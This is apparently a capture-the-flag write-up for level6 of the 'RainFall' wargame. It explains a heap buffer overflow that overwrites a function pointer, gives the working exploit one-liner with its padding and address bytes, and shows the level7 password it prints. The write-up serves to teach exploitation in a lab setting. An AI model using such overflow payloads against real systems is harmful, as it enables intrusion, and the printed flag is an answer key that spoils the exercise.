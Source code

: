 Here, we need to overwrite the value of `m` . To do so, we will again do a buffer overflow. What we know also, is that if you do 2 mallocs in a row, you will get two address that are side by side. So, we can easily overflow our buffer and write inside `ppcVar1`  like so :

```bash
 ./level6 $(python -c 'print "A" * 64 + "\x54\x84\x04\x08" * 1000')
```

(It's a bit overkill but we could have done the same as level0-3 to find the right number so we overwrite only what we want, but we already did that at least 4 times).

>level6@RainFall:~$ ./level6 $(python -c 'print "A" * 64 + "\x54\x84\x04\x08" * 1000')
>f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

```bash
su level7
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

